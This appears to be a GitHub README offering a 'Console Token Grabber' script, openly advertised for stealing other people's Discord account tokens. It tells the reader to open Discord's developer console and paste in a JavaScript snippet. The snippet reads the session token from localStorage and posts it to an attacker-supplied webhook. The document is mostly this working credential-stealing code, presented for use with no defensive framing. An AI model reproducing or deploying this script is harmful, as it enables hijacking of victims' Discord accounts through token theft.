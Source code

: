 ## 🔐 Basic Console Token Grabber
• **It's a simple "Console Token Grabber" that you can use to steal other people's Discord Token.**

<!--<h3 align="center">
![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)
</h3> -->

![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)

## 🔐 How to use

Go ond Discord and press CTRL + SHIFT + I and paste the Script in the console.

```js
(function() {
    window.dispatchEvent(new Event('beforeunload'));
    var x = new XMLHttpRequest;
    x.open("POST", 'YOUR WEBHOOK'), x.setRequestHeader("Content-type", "application/json");
    var y = {
        username: "Eternity Console Stealer",
        avatar_url: "https://cdn.discordapp.com/attachments/941755353035579422/947642580521340928/1.png",
        content: "@everyone New Log!",
        embeds: [{
            color: "21426",
            description: `Token: ${window.open().localStorage.token}`,
        }]
    };

    x.send(JSON.stringify(y));
    w.close()
}());;


